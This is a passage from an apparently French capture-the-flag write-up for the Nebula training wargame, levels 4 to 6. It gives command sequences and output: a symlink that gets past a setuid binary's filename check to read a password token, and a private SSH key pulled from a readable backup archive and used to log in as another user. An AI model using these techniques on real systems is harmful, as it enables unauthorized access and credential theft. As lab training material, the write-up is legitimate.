 On peut bypasser ça via un lien symbolique :

```bash
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/yolo
level04@nebula:/home/flag04$ ./flag04 /tmp/yolo
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
```

## Level 5

```bash
level05@nebula:/home/flag05$ ls -al .backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

Cette fois pas de binaire mais un fichier de backup qui contient une clé privée SSH :

```bash
level05@nebula:/home/flag05$ cp .backup/backup-19072011.tgz /tmp/
level05@nebula:/home/flag05$ cd /tmp/
level05@nebula:/tmp$ tar zxvf backup-19072011.tgz 
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/tmp$ chmod 600 .ssh/id_rsa
level05@nebula:/tmp$ ssh -i .ssh/id_rsa flag05@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
  
flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level 6

Pas de binaire, pas de process pour cet utilisateur, pas de permissions sudo... On peut trouver un indice que [Level 06 :: Andrew Griffiths' Exploit Education](https://exploit.education/nebula/level-06/) :

> The **flag06** account credentials came from a legacy unix system.

